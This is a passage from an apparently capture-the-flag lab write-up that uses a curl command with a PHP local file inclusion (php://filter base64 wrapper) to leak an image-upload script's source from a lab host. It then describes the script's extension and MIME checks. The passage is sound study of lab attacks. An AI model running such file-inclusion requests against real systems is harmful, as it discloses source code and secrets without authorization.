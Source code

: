 ```bash
}
```

The upload.php file verifies the image extension through a whitelist, checks the file type, makes sure the "/" isn't entered trying to add another file type, uses md5 to encrypt the name of the image and attach the extension with which the script was uploaded.

```bash
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=upload" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee upload.php
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
        <body>
                <form action='' method='post' enctype='multipart/form-data'>
                        <input type='file' name='file' id='file' />
                        <input type='submit' name='submit' value='Upload'/>
                </form>
        </body>
</html>
<?php
if(isset($_POST['submit'])) {
        if ($_FILES['file']['error'] <= 0) {
                $filename  = $_FILES['file']['name'];
                $filetype  = $_FILES['file']['type'];
                $uploaddir = 'upload/';
                $file_ext  = strrchr($filename, '.');
                $imageinfo = getimagesize($_FILES['file']['tmp_name']);
                $whitelist = array(".jpg",".jpeg",".gif",".png");

                if (!(in_array($file_ext, $whitelist))) {
                        die('Not allowed extension, please upload images only.');
                }

                if(strpos($filetype,'image') === false) {
                        die('Error 001');
                }

                if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
                        die('Error 002');
                }

                if(substr_count($filetype, '/')>1){
                        die('Error 003');
                }

                $uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

                if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
                        echo "<img src=\"".$uploadfile."\"><br />";
                } else {
                        die('Error 4');
                }
        }
}

?>
```
